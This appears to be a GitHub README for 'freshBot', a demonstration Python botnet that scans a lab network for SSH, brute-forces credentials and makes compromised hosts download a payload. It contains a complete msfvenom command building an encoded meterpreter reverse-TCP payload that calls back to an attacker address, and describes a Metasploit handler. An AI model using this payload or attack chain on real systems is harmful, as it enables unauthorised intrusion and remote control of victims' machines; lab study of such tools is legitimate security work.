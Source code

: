 # freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: ** Linux kali 4.16.0-kali2-amd64 **<br>
2. Our Web Server: **192.168.203.1/evil_file**<br>
3. **4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.<br>
4. Python - paramiko module.<br>
5. msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file<br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>
